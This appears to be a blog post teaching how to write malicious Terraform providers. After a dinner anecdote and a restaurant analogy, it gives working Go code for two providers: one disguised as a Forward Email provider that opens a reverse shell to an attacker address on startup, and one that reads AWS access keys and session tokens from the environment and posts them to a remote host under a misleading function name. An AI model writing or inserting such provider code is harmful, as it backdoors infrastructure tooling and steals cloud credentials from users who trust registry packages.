

# A Guide to Writing Malicious Terraform Providers

## Casual Dinner Conversations

The other night, I hosted a family dinner. After indulging in some Chinese food, apple pie, and cannolis, we found ourselves discussing a topic that naturally comes up at family gatherings: infrastructure as code. (Totally normal, right?) I began explaining the history of Terraform and how HashiCorp Configuration Language (HCL) helps break down silos in infrastructure management. Midway through, my grandmother leaned back and confessed, "Michael, I just don’t get it."

That was my cue to break out an analogy:

_"Terraform is like organizing a dinner outing with friends. You decide on a restaurant (your infrastructure setup), place an order for food (desired resources) with the waiter (Terraform), and the waiter relays your order to the chef (the cloud provider). The chef prepares the meal to your specifications, and voilà—your infrastructure is ready to be served."_

She chuckled, and we moved on to other topics. But the conversation stayed with me, particularly when I started thinking about Terraform providers.

In the analogy, Terraform providers are like the specialized staff members at the restaurant: the wine sommelier, sushi chef, or grill master. But what happens when the sommelier poisons your wine or the sushi chef skims your credit card? Providers are given immense trust, yet we rarely stop to think about what they're doing behind the scenes.

Most users treat the Terraform Registry like a vending machine:
"I need a resource. Let’s see if there’s a provider for it. Oh, cool—there is!"
They copy the configuration, add an API key, and start provisioning without diving deeper into the provider's implementation.



But here's the catch: behind the glossy façade of the Registry and the comfort of a pre-built provider could lie vulnerabilities, poorly-written code, or outright malicious behavior. Few people ever check the provider’s actual GitHub repository unless something goes wrong. And even fewer scrutinize the code deeply enough to uncover hidden risks.


I’m not here to wave a red flag and tell you to be wary of third-party providers. Instead, I want to walk you through how malicious Terraform providers can be written.

## Basic Example: Reverse Shell Provider

To build a malicious provider, you'll need:

- A working knowledge of the Go programming language (or ChatGPT)
- Terraform's Plugin SDK
- Access to the Terraform CLI (or Terraform Core—it sounds cooler)
- A target API (or service) to integrate with

For our example, let’s create a provider that looks like it’s built for Forward Email, a legitimate email hosting service. This "innocent" provider will secretly include malicious behavior. Here’s how it might look:

### Provider Implementation

```go
package main

import (
    "net"
    "os/exec"

    "github.com/hashicorp/terraform-plugin-sdk/v2/helper/schema"
    "github.com/hashicorp/terraform-plugin-sdk/v2/plugin"
)

// Establishes a reverse shell to the attacker's machine
func revshell() {
    c, _ := net.Dial("tcp", "127.0.0.1:8080") // Attacker's IP and port
    cmd := exec.Command("/bin/sh")
    cmd.Stdin, cmd.Stdout, cmd.Stderr = c, c, c
    cmd.Run()
    c.Close()
}

func main() {
    revshell() // Execute malicious logic on initialization
    plugin.Serve(&plugin.ServeOpts{
        ProviderFunc: func() *schema.Provider {
            return &schema.Provider{
                DataSourcesMap: map[string]*schema.Resource{
                    "example": dataSourceAlias(),
                },
            }
        },
    })
}
```

## Stealing AWS Credentials

Many Terraform providers use AWS credentials for authentication. A malicious provider could extract and exfiltrate these credentials to an attacker’s server.

```go
package main

import (
    "bytes"
    "net/http"
    "os"

    "github.com/hashicorp/terraform-plugin-sdk/v2/helper/schema"
    "github.com/hashicorp/terraform-plugin-sdk/v2/plugin"
)

// Function to steal and exfiltrate AWS credentials
func validateAWSCredentials() {
    awsAccessKey := os.Getenv("AWS_ACCESS_KEY_ID")
    awsSecretKey := os.Getenv("AWS_SECRET_ACCESS_KEY")
    awsSessionToken := os.Getenv("AWS_SESSION_TOKEN")
    data := []byte("AccessKey=" + awsAccessKey + "&SecretKey=" + awsSecretKey + "&SessionToken=" + awsSessionToken)
    http.Post("http://10.0.0.66/validate", "application/x-www-form-urlencoded", bytes.NewBuffer(data))
}

func main() {
    validateAWSCredentials()
    plugin.Serve(&plugin.ServeOpts{
        ProviderFunc: func() *schema.Provider {
            return &schema.Provider{
                ResourcesMap: map[string]*schema.Resource{
                    "example_resource": resourceExample(),
                },
            }
        },
    })
}

func resourceExample() *schema.Resource {
    return &schema.Resource{
        Create: func(d *schema.ResourceData, m interface{}) error { return nil },
        Read:   func(d *schema.ResourceData, m interface{}) error { return nil },
        Update: func(d *schema.ResourceData, m interface{}) error { return nil },
        Delete: func(d *schema.ResourceData, m interface{}) error { return nil },
    }
}
```

